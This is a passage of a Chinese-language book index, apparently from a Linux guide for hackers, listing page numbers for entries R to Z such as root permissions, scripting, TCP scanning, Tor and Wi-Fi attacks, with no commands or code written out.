Python 包索引 (PyPI), 184

# R

树莓派 (Raspberry Pi)
  - 架构, xxvi
  - Spy 项目, 125–129
  - Raspbian 操作系统, 126, 129

`raspistill`, 129
`rc` 脚本, 178–180
`rconf` 工具, 180–181
`read` 命令, 85, 91
`readonly` 命令, 91

侦察 (reconnaissance), 160–164, 197
`renice`, 65, 66
仓库, 40, 43–44, 185
资源使用, 64
`rm` (删除) 命令, 16
`rmdir` (删除目录) 命令, 16
`rmod` (移除模块) 命令, 169
`/root` 目录, 5

- root 用户
  - 定义, 2
  - 密码, xxxii–xxxiii, 130–131, 132
  - 权限, 5, 6, 50, 65, 66
根kit (rootkits), 166, 171
`syslog` 守护进程, 112, 119
运行级别 (runlevels), 179

# S

- `/bin` 目录, 76
调度
  - 使用 `at`, 69
  - 使用 `crond`, 174–181
  - 启动时, 178–181
脚本变量, 84–85, 89

- 脚本
  - 概念, 2, 81
  - 示例, 86–90
  - 执行, 83–84
  - 调度, 174–181
  - 写入, 82

SDP (服务发现协议), 163
`sdpt` 命令, 163
安全. 参见权限
  - 可加载内核模块, 171–72
  - 监控, 142–143, 148, 149
  Wi-Fi 协议, 154

`sed` (流编辑器), 23–24
`SELECT` 命令, 135
`service` 命令, 119, 122

服务发现协议 (SDP), 163
  - 定义, 121
  - 启动调度, 179–181
  - 停止, 122

`set` 命令, 72–73, 91
SGID 权限, 58–59
`.sh` 扩展名, 85
`shebang` (`#`), 82
shell 提示符, 75–76
shell 变量, 71–72
`shells`, 2
`shift` 命令, 91
`show` 命令, 134
`shred` 命令, 117–18
`socket` 模块, 194–196
Snort, 19–20
软件管理器, 40, 45–46
软件包
  - 定义, 39
  - 安装, 40–41
  - 移除, 41–42
  - 更新与升级, 42–43
`sources.list` 文件, 43–44

SQL (结构查询语言), 131
SSH (安全外壳), 125–126
SSID (服务标识符), 154
`sticky` 权限, 58–59
存储设备, 102–109
  - 监控与检查, 107–109
  - 挂载与卸载, 106–107
  - 表现, 102–106
`strip()` 函数, 202
`su` (切换用户) 命令, 136
SUID 权限, 57–59
监控关注, 142–143, 148, 149
Synaptic 包管理器, 45–46
`sysctl` 命令, 167–169
`syslog` 守护进程, 112
系统管理员. 参见 root 用户

# T

`tail` (查看文件) 命令, 21–22, 23
`tar` (存档) 命令, 94–96
`.tar` 扩展名, 95
`tarballs/tar` 文件, 94–96
TCP 客户端脚本, 194–195
TCP 连接扫描, 86–90
TCP 监听脚本, 195–197
终端, 2, 4, 68

`test` 命令, 91

文本
  - 合并到文件, 13–14
  - 显示, 20–23, 24
  - 查找与替换, 23–24
文本编辑器, 82, 187
`.tgz` 扩展名, 96
`times` 命令, 91
`top` (资源使用) 命令, 64, 66
Tor 网络, 141–143
`torrent` 下载, xx–xxvi
`touch` 命令, 14–15
`traceroute` 命令, 140
`trap` 命令, 91
`try/except` 语句, 201–202
`type` 命令, 91

# U

`ugo` (用户、组及其他) 语法, 54–55
`umask` (掩码) 值, 56–57, 91
`umount` (卸载) 命令, 107
`uname` 命令, 167
`uncompress` 命令, 97
`unset` 命令, 72–73, 78, 91
`update-rc.d` 命令, 179
USB 闪存盘, 104–105, 106
`use` 命令, 134
用户定义变量, 77–78
用户态, 165
用户类型, 50

# V

- 变量. 同样参见环境变量
Python, 187–190
script, 84–89
shell, 71–72
虚拟机, 概念与安装, xxvi–xxvii
虚拟专用网络 (VPNs), 148–149
VirtualBox
  - 安装与设置, xxvi–xxix
  - 在上面安装 Kali, xxix–xxxi
虚拟化软件, xxxi
VPNs (虚拟专用网络), 148–149
漏洞评估, xxiii

# W

- `wait` 命令, 91
Web 服务器服务, 122–125
WEP (无线等效隐私) 协议, 154
`wget` 命令, 185–186
`whereis` 命令, 10
`which` 命令, 10
`while` 循环, 198
白帽黑客, xxii
Wi-Fi 网络, 154–159
  - 基础命令, 154–157
  - 攻击, 154–159
通配符, 27
Windows vs. Linux, xx–xxv
无线设备, 30–31
无线范围, 154
`wlan0` 接口, 30
字典文件, 27
WPA (无线保护接入) 协议, 154
WPA2-PSK 协议, 154

# Z

僵尸进程, 66, 67
